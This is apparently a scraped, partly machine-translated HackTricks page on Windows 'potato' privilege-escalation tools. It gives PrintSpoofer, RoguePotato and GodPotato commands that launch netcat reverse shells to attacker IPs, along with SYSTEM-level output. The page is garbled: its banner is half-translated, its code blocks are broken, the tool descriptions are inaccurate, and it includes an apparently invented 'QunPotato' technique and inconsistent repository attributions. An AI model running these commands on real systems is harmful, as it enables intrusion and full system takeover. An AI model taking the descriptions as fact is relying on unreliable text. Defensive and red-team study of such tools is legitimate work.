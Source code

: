 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>qaStaHvIS</strong></summary>

**HackTricks** vItlhutlh **SaaS** **Workspace** **advertise** **company** **want** **download HackTricks** **PDF** **Check** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

**PEASS & HackTricks swag** **official** **Get** [**swag**](https://peass.creator-spring.com) **PEASS Family** **Discover** [**NFTs**](https://opensea.io/collection/the-peass-family) **collection** **our** **exclusive**

**Join** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** [**t.me/peass**](https://t.me/peass) **follow** **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)

**Share** **hacking tricks** **submitting PRs** [**HackTricks**](https://github.com/carlospolop/hacktricks) [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos**

</details>

{% hint style="warning" %}
**JuicyPotato** **Windows Server 2019** **Windows 10 build 1809** **onwards** **work**. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) **leverage** **privileges** **gain `NT AUTHORITY\SYSTEM`** **level access**. This [**blog post**](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) **goes in-depth** **`PrintSpoofer`** **tool** **abuse impersonation privileges** **Windows 10** **Server 2019** **hosts** **JuicyPotato** **longer work**
{% endhint %}

## Quick Demo

### PrintSpoofer
```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```
### RoguePotato

{% code overflow="wrap" %}### RoguePotato

RoguePotato is a Windows local privilege escalation technique that takes advantage of the COM Server and DCOM features in Windows. It allows an attacker to escalate their privileges from a low-privileged user to SYSTEM level.

The technique involves creating a malicious COM Server that impersonates a legitimate COM Server. When a high-privileged user accesses the malicious COM Server, it triggers the execution of a payload that runs with SYSTEM privileges.

To exploit this technique, the attacker needs to have the ability to create a COM Server and register it on the target system. They can achieve this by leveraging vulnerabilities in software that allows the creation of COM Servers or by using techniques like DLL hijacking.

Once the malicious COM Server is registered, the attacker can wait for a high-privileged user to access it. This can be done by tricking the user into opening a file or visiting a website that triggers the execution of the COM Server.

To mitigate the risk of RoguePotato attacks, it is recommended to apply the latest security patches and updates to the operating system and software. Additionally, restricting the ability to create and register COM Servers can help prevent this type of privilege escalation.

### PrintSpoofer

PrintSpoofer is a Windows local privilege escalation technique that takes advantage of the Print Spooler service in Windows. It allows an attacker to escalate their privileges from a low-privileged user to SYSTEM level.

The technique involves abusing the impersonation capabilities of the Print Spooler service to execute arbitrary code with SYSTEM privileges. By exploiting this vulnerability, an attacker can gain full control over the target system.

To exploit this technique, the attacker needs to have the ability to interact with the Print Spooler service. This can be achieved by leveraging vulnerabilities in software that interacts with the Print Spooler or by using techniques like DLL hijacking.

Once the attacker has access to the Print Spooler service, they can execute arbitrary code with SYSTEM privileges. This can be done by injecting a malicious DLL into the Print Spooler process or by creating a malicious printer driver.

To mitigate the risk of PrintSpoofer attacks, it is recommended to apply the latest security patches and updates to the operating system and software. Additionally, disabling the Print Spooler service or restricting access to it can help prevent this type of privilege escalation.
```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```
{% code %}

### SharpEfsPotato

#### Description

SharpEfsPotato is a tool that exploits the EfsRpcOpenFileRaw function in the EFS service to perform a local privilege escalation attack. This attack can be used to gain SYSTEM-level privileges on a Windows machine.

#### Usage

To use SharpEfsPotato, follow these steps:

1. Download the SharpEfsPotato tool from the official GitHub repository.
2. Compile the source code using a C# compiler.
3. Execute the compiled binary on the target Windows machine.

#### Example

Here is an example command to execute SharpEfsPotato:

```
SharpEfsPotato.exe
```

#### Mitigation

To mitigate the risk of SharpEfsPotato attacks, follow these recommendations:

1. Apply the latest security patches and updates to the Windows operating system.
2. Implement strong access controls and permissions on sensitive files and directories.
3. Regularly monitor and review system logs for any suspicious activity.
4. Use a reliable antivirus and antimalware solution to detect and prevent malicious software.

#### References

- [SharpEfsPotato GitHub repository](https://github.com/itm4n/SharpEfsPotato)

{% endcode %}
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```
### QunPotato

#### Description

QunPotato is a Windows local privilege escalation technique that takes advantage of the Print Spooler service and the RoguePotato vulnerability. By exploiting this technique, an attacker can escalate their privileges from a low-privileged user to SYSTEM level.

#### Vulnerable Versions

- Windows 10 (all versions)
- Windows Server 2016
- Windows Server 2019

#### Exploitation Steps

1. Download the QunPotato exploit from the [GitHub repository](https://github.com/antonioCoco/RoguePotato).
2. Compile the exploit using Visual Studio or use the precompiled binary.
3. Execute the exploit on the target machine.
4. QunPotato will create a malicious RPC server and register it with the Print Spooler service.
5. The Print Spooler service will connect to the malicious RPC server, triggering the exploitation.
6. The exploit will execute a command as SYSTEM, granting the attacker elevated privileges.

#### Mitigation

To mitigate the QunPotato attack, follow these steps:

1. Disable the Print Spooler service if it is not required.
2. Apply the latest security updates and patches to the operating system.
3. Implement the principle of least privilege (PoLP) to limit the privileges of user accounts.
4. Monitor and restrict the execution of unsigned or suspicious binaries.
5. Regularly review and update security configurations to ensure they align with best practices.

#### References

- [RoguePotato GitHub repository](https://github.com/antonioCoco/RoguePotato)
- [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36958)
```
GodPotato -cmd "cmd /c whoami"
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
## References
* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
* [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
* [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
